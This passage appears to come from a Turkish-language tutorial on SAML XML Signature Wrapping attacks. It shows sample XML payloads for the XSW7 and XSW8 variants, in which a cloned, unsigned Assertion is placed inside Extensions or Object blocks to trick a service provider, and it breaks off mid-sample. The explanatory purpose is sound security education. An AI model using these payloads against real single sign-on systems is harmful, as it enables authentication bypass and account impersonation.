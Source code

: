 ```
          <SubjectConfirmationData NotOnOrAfter="2023-07-02T12:44:56Z" Recipient="https://service-provider.com/acs"/>
        </SubjectConfirmation>
      </Subject>
      <Conditions NotBefore="2023-07-02T12:34:56Z" NotOnOrAfter="2023-07-02T12:44:56Z">
        <AudienceRestriction>
          <Audience>https://service-provider.com</Audience>
        </AudienceRestriction>
      </Conditions>
      <AuthnStatement AuthnInstant="2023-07-02T12:34:56Z" SessionIndex="_e55c9c3e8e9f6744e6e8d18d5f7fdd5a">
        <AuthnContext>
          <AuthnContextClassRef>urn:oasis:names:tc:SAML:2.0:ac:classes:Password</AuthnContextClassRef>
        </AuthnContext>
      </AuthnStatement>
    </Assertion>
  </Extensions>
  <Signature>
    <!-- Signature bilgileri burada yer alır -->
  </Signature>
</Assertion>

```
Yukarıdaki örnekte, Extensions bloğu içine yerleştirilen klonlanmış Assertion (`_e55c9c3e8e9f6744e6e8d18d5f7fdd5a` ID değeri ile ayırt edilir) bulunmaktadır. Bu Assertion, saldırganın manipüle ettiği bilgileri ve istediği kimlik beyanını içerebilir. Hizmet sağlayıcı, Extensions bloğundaki Assertion'ı kabul eder ve saldırganın istediği yetkilendirme ve erişim haklarını verir.

- XSW8 :// orijinal imzası kaldırılmış bir kopya Assertion'ı içeren bir "Object" bloğunun eklenmesiyle gerçekleştirilir. Bu şekilde, saldırgan orijinal Assertion'ı manipüle etmeden doğrudan SAML mesajına ekleyebilir.

```
<Assertion xmlns="urn:oasis:names:tc:SAML:2.0:assertion" ID="_e55c9c3e8e9f6744e6e8d18d5f7fdd5b" Version="2.0" IssueInstant="2023-07-02T12:34:56Z">
  <Issuer>https://identity-provider.com</Issuer>
  <Subject>
    <NameID Format="urn:oasis:names:tc:SAML:1.1:nameid-format:unspecified">user@example.com</NameID>
    <SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:cm:bearer">
      <SubjectConfirmationData NotOnOrAfter="2023-07-02T12:44:56Z" Recipient="https://service-provider.com/acs"/>
    </SubjectConfirmation>
  </Subject>
  <Conditions NotBefore="2023-07-02T12:34:56Z" NotOnOrAfter="2023-07-02T12:44:56Z">
    <AudienceRestriction>
      <Audience>https://service-provider.com</Audience>
    </AudienceRestriction>
  </Conditions>
  <AuthnStatement AuthnInstant="2023-07-02T12:34:56Z" SessionIndex="_e55c9c3e8e9f6744e6e8d18d5f7fdd5b">
    <AuthnContext>
      <AuthnContextClassRef>urn:oasis:names:tc:SAML:2.0:ac:classes:Password</AuthnContextClassRef>
    </AuthnContext>
  </AuthnStatement>
  <Object>
    <!-- Orijinal Assertion'ın imzası kaldırılmış kopyası -->
    <Assertion xmlns="urn:oasis:names:tc:SAML:2.0:assertion" ID="_e55c9c3e8e9f6744e6e8d18d5f7fdd5c" Version="2.0" IssueInstant="2023-07-02T12:34:56Z">
      <Issuer>https://identity-provider.com</Issuer>
      <Subject>
        <NameID Format="urn:oasis:names:tc:SAML:1.1:nameid-format:unspecified">user@example.com</NameID>
```